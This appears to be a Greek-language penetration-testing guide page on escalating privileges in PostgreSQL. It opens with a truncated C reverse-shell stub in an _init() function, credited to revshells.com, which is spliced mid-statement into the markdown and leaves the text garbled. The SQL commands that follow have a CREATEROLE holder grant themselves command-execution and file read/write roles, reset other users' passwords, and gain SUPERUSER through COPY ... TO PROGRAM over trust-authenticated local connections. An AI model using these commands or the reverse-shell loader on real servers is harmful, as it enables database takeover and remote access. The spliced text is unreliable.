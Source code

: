 ```c
#endif

void _init() {
/*
κώδικας που προέρχεται από https://www.revshells.com/
*/

int port = REVSHELL_PORT;
struct sockaddr_in revsockaddr;

int sockt = socket(AF_INET, SOCK_STREAM, 0);
revsockaddr.sin_family = AF_INET;
revsockaddr.sin_port =
## **Postgres Ανύψωση Δικαιωμάτων**

### Ανύψωση Δικαιωμάτων CREATEROLE

#### **Χορήγηση**

Σύμφωνα με τα [**έγγραφα**](https://www.postgresql.org/docs/13/sql-grant.html): _Οι ρόλοι που έχουν το προνόμιο **`CREATEROLE`** μπορούν να **χορηγήσουν ή να ανακαλέσουν την συμμετοχή σε οποιονδήποτε ρόλο** που **δεν** είναι **υπερχρήστης**._

Έτσι, αν έχετε την άδεια **`CREATEROLE`** μπορείτε να χορηγήσετε στον εαυτό σας πρόσβαση σε άλλους **ρόλους** (που δεν είναι υπερχρήστες) που μπορεί να σας δώσουν τη δυνατότητα να διαβάσετε και να γράψετε αρχεία και να εκτελέσετε εντολές:
```sql
# Access to execute commands
GRANT pg_execute_server_program TO username;
# Access to read files
GRANT pg_read_server_files TO username;
# Access to write files
GRANT pg_write_server_files TO username;
```
#### Τροποποίηση Κωδικού Πρόσβασης

Οι χρήστες με αυτόν τον ρόλο μπορούν επίσης να **τροποποιήσουν** τους **κωδικούς πρόσβασης** άλλων **μη-υπερχρηστών**:
```sql
#Change password
ALTER USER user_name WITH PASSWORD 'new_password';
```
#### Ανύψωση δικαιωμάτων σε SUPERUSER

Συχνά συμβαίνει να βρείτε ότι **οι τοπικοί χρήστες μπορούν να συνδεθούν στο PostgreSQL χωρίς να παρέχουν κωδικό πρόσβασης**. Έτσι, αφού έχετε συγκεντρώσει **δικαιώματα για εκτέλεση κώδικα**, μπορείτε να εκμεταλλευτείτε αυτά τα δικαιώματα για να αποκτήσετε τον ρόλο **`SUPERUSER`**:
```sql
COPY (select '') to PROGRAM 'psql -U <super_user> -c "ALTER USER <your_username> WITH SUPERUSER;"';
```
{% hint style="info" %}
Αυτό είναι συνήθως δυνατό λόγω των παρακάτω γραμμών στο αρχείο **`pg_hba.conf`**:
```bash
# "local" is for Unix domain socket connections only
local   all             all                                     trust
# IPv4 local connections:
host    all             all             127.0.0.1/32            trust
# IPv6 local connections:
host    all             all             ::1/128                 trust
```
{% endhint %}
